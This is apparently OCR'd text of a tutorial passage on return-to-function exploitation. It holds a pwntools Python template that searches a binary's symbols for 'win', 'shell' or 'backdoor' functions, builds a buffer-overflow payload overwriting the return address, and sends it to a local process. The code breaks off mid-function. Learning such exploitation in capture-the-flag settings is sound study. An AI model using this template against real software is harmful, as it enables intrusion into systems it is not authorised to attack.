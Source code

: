
---

## Exploitation Basics

### Return-to-Function

Most basic exploitation technique - redirect execution to existing function.

```python
# File: ret2func_template.py
#!/usr/bin/env python3

"""
Return-to-Function Exploitation Template
Redirects execution to existing function in binary
"""

from pwn import *
import sys

def analyze_binary(binary_path):
    """Analyze binary for useful functions"""
    elf = ELF(binary_path)
    
    log.info("Analyzing binary functions...")
    
    # Look for interesting functions
    interesting_funcs = []
    for func_name in elf.symbols:
        if any(keyword in func_name.lower() for keyword in 
               ['win', 'shell', 'flag', 'secret', 'admin', 'backdoor']):
            address = elf.symbols[func_name]
            interesting_funcs.append((func_name, address))
            log.success(f"Found interesting function: {func_name} @ {hex(address)}")
    
    return interesting_funcs

def create_payload(offset, target_address):
    """Create ROP payload"""
    payload = b'A' * offset
    payload += p64(target_address)
    return payload

def exploit(binary_path, offset, target_function):
    """Execute the exploit"""
    log.info(f"Exploiting {binary_path}")
    log.info(f"Offset: {offset}")
    log.info(f"Target: {hex(target_function)}")
    
    p = process(binary_path)
    
    # Wait for input prompt
    try:
        p.recvuntil(b"name:", timeout=5)
    except:
        log.warning("No prompt received, sending payload anyway...")
    
    # Create and send payload
    payload = create_payload(offset, target_function)
    p.sendline(payload)
    
    # Check result
    try:
        response = p.recv(timeout=3)
```